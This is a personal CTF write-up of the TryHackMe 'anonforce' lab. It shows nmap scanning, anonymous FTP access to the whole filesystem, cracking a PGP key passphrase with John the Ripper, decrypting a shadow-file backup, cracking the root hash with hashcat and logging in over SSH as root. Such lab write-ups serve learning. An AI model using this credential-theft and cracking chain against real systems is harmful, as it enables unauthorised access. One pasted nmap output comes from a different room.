

<a href="https://tryhackme.com/room/bsidesgtanonforce"></a>

# anonforce

This is aboot2root machine for FIT and bsides guatemala CTF.

## nmap

Initial
```
~/CTF/tryhackme/anonforce$ nmap -p- -A -oN nmap/all_ports $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 19:44 BST
Nmap scan report for 10.10.210.237
Host is up (0.019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Aug 22 11:36 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x   98 0        0               0 Aug 22 11:36 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Aug 22 11:36 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Aug 22 11:36 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.12.213
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.52 seconds

```
All Ports
```
~/CTF/tryhackme/library$ nmap -p- -oN nmap/all_ports $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-22 13:21 BST
Nmap scan report for 10.10.60.21
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.42 seconds
```
Well, not even an HTTP to look at. Not much showing, however there is a notread folder, marked as writeable, so something to look at.

Other than that, just the two ports, one ssh and one ftp, although anonymous is allowed so that should be ournext port of call.

## gobuster
No http ports showing, so no results.

## nikto
No http ports showing, so no results.

## webpage discovery
No visibile page to rewiew or interrigate.

## where to now
Looking at what we know. We have:

1. What appears to be the whole system available on ftp, read only.
1. Possibly interesting folder highlighted as having write enabled.

Lets review the system from a user perspctive to see if we can get some usernames.

## ftp

```
~/CTF/tryhackme/anonforce$ ftp $IP
Connected to 10.10.22.30.
220 (vsFTPd 3.0.3)
Name (10.10.22.30:): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
drwxr-xr-x   17 0        0            3700 Aug 22 22:34 dev
drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
drwx------    2 0        0           16384 Aug 11  2019 lost+found
drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
dr-xr-xr-x   92 0        0               0 Aug 22 22:34 proc
drwx------    3 0        0            4096 Aug 11  2019 root
drwxr-xr-x   18 0        0             540 Aug 22 22:34 run
drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
dr-xr-xr-x   13 0        0               0 Aug 22 22:34 sys
drwxrwxrwt    9 0        0            4096 Aug 22 22:34 tmp
drwxr-xr-x   10 0        0            4096 Aug 11  2019 usr
drwxr-xr-x   11 0        0            4096 Aug 11  2019 var
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
226 Directory send OK.
```
So now we have verified what nmap told us. Open system from root upwards. Lets see if we can find users and or flags.
```
ftp> cd /home
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (31.6879 kB/s)
ftp> 
```
Well we are in luck. We now have a username, and the user flag!

```
~/CTF/tryhackme/anonforce$ cat user.txt 
<insert-user-flag-here>
```
Lets check out that write file with the strange name - notread.
```
ftp> cd /notread
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> mget backup.pgp private.asc 
mget backup.pgp? yes
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
226 Transfer complete.
524 bytes received in 0.00 secs (1.1357 MB/s)
mget private.asc? yes
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for private.asc (3762 bytes).
226 Transfer complete.
3762 bytes received in 0.00 secs (3.6609 MB/s)
ftp> 
```
OK this looks interesting. Earlier this week I had a similar CTF, so back to my trusty Zim Desktop Wiki to see what I did.
```
~/CTF/tryhackme/anonforce$ gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2/B92CD1F280AD82C2: error sending to agent: Timeout
gpg: error building skey array: Timeout
gpg: error reading 'private.asc': Timeout
gpg: import from 'private.asc' failed: Timeout
gpg: Total number processed: 0
gpg:              unchanged: 1
gpg:       secret keys read: 1
```
Ah ha!! Password required this time.


<br>

Not my first failure today! At the back of my mind John the Ripper (pgp2john) can do this type of cracking. Some Google searching and this came up.

```
https://www.openwall.com/lists/john-users/2015/11/17/1

Usage
-----

1. Run gpg2john on PGP symmetrically encrypted files (.gpg / .asc).

2. Run john on the output of gpg2john.
```
Lets see what happens.
```
~/CTF/tryhackme/anonforce$ /usr/sbin/gpg2john private.asc > pri_hash

File private.asc
~/CTF/tryhackme/anonforce$ cat pri_hash 
anonforce:$gpg$*17*54*2048*e419ac715ed55197122fd0acc6477832266db83b63a3f0d16b7f5fb3db2b93a6a995013bb1e7aff697e782d505891ee260e957136577*3*254*2*9*16*5d044d82578ecc62baaa15c1bcf1cfdd*65536*d7d11d9bf6d08968:::anonforce <melodias@anonforce.nsa>::private.asc
~/CTF/tryhackme/anonforce$ /usr/sbin/john pri_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 3 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Further messages of this type will be suppressed.
To see less of these warnings, enable 'RelaxKPCWarningCheck' in john.conf
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
<insert-password-here>          (anonforce)
1g 0:00:00:01 DONE 2/3 (2020-08-23 07:35) 0.5847g/s 9201p/s 9201c/s 9201C/s lolipop..xbox360
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Right, lets go back to the import of the ,asc file.
```
~/CTF/tryhackme/anonforce$ gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
karti@kali-pt:~/CTF/tryhackme/anonforce$ gpg --decrypt backup.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4<insert-missing-digits-here>JzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18120:0:99999:7:::
uuidd:*:18120:0:99999:7:::
melodias:$1$xDhc6S<insert-missing-digits-here>EQtL1:18120:0:99999:7:::
sshd:*:18120:0:99999:7:::
ftp:*:18120:0:99999:7:::
```
So it appears that we have a copy of the /etc/shadow file, which includes root. Lets go straight for that. I will be using hashcat a I am trying to get more familiar with it rather than JtR. Firstly I take the root details and add to a file called root_hash. Before I run it I check against the [example hash](https://hashcat.net/wiki/doku.php?id=example_hashes) and in this case the $6$ is M 1800 (sha512crypt $6$, SHA512 (Unix) 2)

```
~/CTF/tryhackme/anonforce$ hashcat -m 1800 root_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.0.0) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 5 3500U with Radeon Vega Mobile Gfx, 9874/9938 MB (4096 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$07nYFaYf$F4VMaegmz7dK<insert-missing-digits-here>XI2EtULXJzBtaMZMNd2tV4uob5RVM0:<insert-password-here>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycI...b5RVM0
Time.Started.....: Sun Aug 23 08:06:40 2020 (7 secs)
Time.Estimated...: Sun Aug 23 08:06:47 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      994 H/s (9.39ms) @ Accel:16 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6720/14344385 (0.05%)
Rejected.........: 0/6720 (0.00%)
Restore.Point....: 6672/14344385 (0.05%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidates.#1....: lionheart -> BITCH

Started: Sun Aug 23 08:06:38 2020
Stopped: Sun Aug 23 08:06:48 2020

```
I did try to crack the other user, but by the time I had completed this writeup, it was still going. Lets try root now and see if we can get the flag.

```
~/CTF/tryhackme/anonforce$ ssh root@$IP
root@10.10.22.30's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
<insert-root-flag-here>

```
Another really enjoyable challenge. Need to improve my notes on gpg, hashcat and JtR but that will be my next task!! Another good room to come back and practice with.

Thanks go to [stuxnet](https://tryhackme.com/p/stuxnet) again for this room. Much appreciated.

Regards

K

<script src="https://tryhackme.com/badge/65208"></script>
